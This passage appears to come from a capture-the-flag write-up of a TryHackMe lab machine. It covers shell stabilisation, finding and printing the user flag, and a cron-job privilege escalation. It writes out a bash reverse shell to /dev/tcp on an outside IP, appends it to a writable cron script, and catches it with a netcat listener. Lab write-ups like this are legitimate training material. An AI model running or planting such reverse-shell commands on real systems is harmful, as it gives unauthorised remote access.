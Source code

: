 ```rlwrap nc -lvnp 1234```


We can stabilize this shell using the following command

```
python3 -c “import pty;pty.spawn(‘/bin/bash’)”
ctrl + z (to background)
stty raw -echo && fg
export TERM=screen
```

![image](https://user-images.githubusercontent.com/67879936/222677418-6c075ea5-7995-4740-8b4e-8f516339c3af.png)

Now, let’s go ahead to grab the user’s flag

Now, I do use the find command to actually look for flags because it basically looks for the flag and gives me the path to the flag. I do this because it’s not every time the flag is always located in the home directory

command:```find / 2>/dev/null | grep -i “user.txt”```

![image](https://user-images.githubusercontent.com/67879936/222677796-f6aa59d9-6dc0-4d97-9a59-270e7bc906a6.png)

User Flag:```thm{lf1_t0_rc3_1s_tr1cky}```

From the screenshot above you will observe that after running the find command, it showed us the path where the flag is located.

Using the cat command, we got access to the flag.


#Root the machine

Our focus here will be privilege escalation

1. Getting user 2 flag

There is a cronjob running on the system

command:```cat /etc/crontab```

![image](https://user-images.githubusercontent.com/67879936/222678675-2cfe6385-ad63-459b-ac4f-7525b8b7f2b2.png)

From the above screenshot we can see that /opt/helloworld.sh is running as a cron job as user “archangel” and we can write to it. So, all we have to do is inject a reverse shell and start another netcat listener

reverse shell:```/bin/bash -i >& /dev/tcp/10.18.103.121/1337 0>&1```

command:```echo “/bin/bash -i >& /dev/tcp/10.18.103.121/1337 0>&1” >> /opt/helloworld.sh```

![image](https://user-images.githubusercontent.com/67879936/222678836-36c62a45-9ec0-4e50-999a-1ecad51161d1.png)

Then we start a netcat listener for incoming connections

netcat listener:```rlwrap nc -lvnp 1337```

![image](https://user-images.githubusercontent.com/67879936/222678927-e529fb6e-60a0-4eae-883c-8741e98cbf01.png)
```